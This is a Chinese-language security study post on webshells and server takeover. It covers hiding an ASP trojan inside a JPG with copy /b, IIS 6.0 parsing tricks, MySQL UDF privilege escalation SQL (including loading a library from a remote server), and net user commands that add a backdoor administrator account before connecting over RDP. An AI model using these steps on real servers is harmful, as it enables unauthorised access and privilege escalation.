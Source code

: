 ```yaml
---
title: trojan控制服务器
date: 2022-04-18 10:36:42
categories:
- CS
- security
tags:
- trojan
toc: true
---
```

**摘要：本文介绍了trojan,和常用的trojan工具**
<!-- more -->
---
# 一.必备知识
文件上传漏洞：用户通过上传trojan文件，获得了管理网站/服务器的权限
关键点：网站必须提供上传功能，知道trojan上传路径，trojan能被执行
trojan:伪装成正常程序的恶意程序，一旦运行可以控制电脑
网页trojan:伪装成正常网页的恶意网页(如x.php)，一旦运行可以控制网站或服务器
webshell:一个文件，后缀名是asp,php,aspx等，功能是管理网站
小马：功能少，代码量小的trojan
大马：功能多，代码量大的trojan
通信过程：
```
1.输入网址
2.浏览器把网址发送给DNS服务器并解析出ip
3.浏览器拿到ip后，向那个ip服务器发起HTTP协议
4.服务器会得到浏览器请求，并做出响应
5.浏览器拿到响应，生成页面
```

# 二、制作图片trojan
一般网站都不允许上传asp,php,aspx等后缀的文件，所以我们要改成图片的格式
```
copy 原有图片.jpg/b + trojan.asp 要新生成的图片马.jpg
```
中间件(Nginx,Apache,Tomcat,IIS)：提供网站服务，并能解析webshell

IIS6.0漏洞:后缀名为cer,cdx,asa的文件，统一解析成asp。比如上传了1.cer，最后执行的名字是1.asp。所以把图片马的后缀改成cer

Apache解析php,Tomcat解析java

为什么不直接把ASP文件后缀名改成cer：每个文件都是有特征的

如何收集网站的中间件信息：Wappalyzer插件

# 三、找路径

# 四、管理webshell
管理webshell的工具：菜刀、蚁剑、冰蝎、格斯兰(kali默认安装了weevely,在命令行执行即可)

# 五、提权
```
通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限(即中间件权限network service)。
因为我们上传木马是被中间件解析的，所以通过木马控制服务器现在的权限是中间件的权
限。中间件的权限是网站管理员设置的。如在iis就是iis用户组权限，在apache 就是
管理员权限，e一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信
息，ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限 超级管理
员权限。更高的权限方便我们在后续的渗透中，扩大范围测试。
```
sqlmap中的os-shell也是同样原理，sql-shell  是数据库权限。
## UDF提权
UDF(User Defined Function用户自定义函数)。用户可以通过自定义函数实现在mysql中无法方便实现的功能，添加的新函数都可以在sql语句中调用，就像调用本机函数一样

udf.dll(windows)/udf.so(linux)是一个函数的脚本，这个脚本的作用是 提供了 mysql执行系统命令的功能。

条件：
```
MySQL数据库没有开启安全模式。
已知的数据库账号具有对MySQL数据库insert和delete的权限，最好是root最高权限。
shell有写入到数据库安装目录的权限。
```

```
udf.dll 如何处理
1、cmd命令行处理
certutil -encodehex -f -v udf64.dll w32x.txt 4 
2、数据库处理
select hex(load_file('/udf/udf64.so')) into dumpfile 'l64.hex';
3、远程包含导入
select load_file('//你的服务器/l64.so') into dumpfile 
'/www/server/mysql/lib/plugin/l64.so';
```
步骤：
```
1.select @@version_compile_os,@@version_compile_machine,@@version #判断版本
2.select @@plugin_dir ;     show variables like 'plugin%';#判断路径
3.select 0x3weqwe.. into dumpfile '/www/server/mysql/lib/plugin/1.so'
#写入文件
4.drop function sys_eval
create function sys_eval returns string soname '1.so';#生成函数
5.select sys_eval('whoami') #执行函数
```
![20220418164608](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220418164608.png)

注意：
outfile函数可以导出多行，而dumpfile只能导出一行数据；
outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

宝塔(可以短时间让电脑变成服务器，并增加安全防护)管理数据库：要知道端口->路径->登录进入管理网站->登录数据库->管理数据库
phpmyadmin：http://IP:888/pma

## 补丁查询
![20220418113823](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs20220418113823.png)

0.当遇到连执行命令的权限都没有的时候，直接上传一个新的cmd.exe

1.执行`systeminfo`命令查询目标服务器打过哪些补丁，将执行结果复制放到[查询网站](https://i.hacking8.com/tiquan)->返回exp

2.找到哪些是可以利用的，得到system权限

3.创建用户
```bash
net user qiesi abc123 /add   #添加用户，默认普通用户没有登录远程服务器的权限
net user qiesi /delete #删除用户
net localgroup administrators qiesi /add  #将用户加入到管理员组
```

4.远程登录：在本地输入mstsc

找ip:在目标服务器命令行输入ping 目标网址(要删去http头)

在远程桌面连接输入ip或ip:3389 /admin

3389：有的时候远程连接的默认端口不是3389

/admin：有时遇到目标服务器连接不上，超出了最大允许连接范围->把别人挤掉

---
# 总结

---
# 参考资料
1.[udf提权](https://www.jianshu.com/p/536d7fccb852)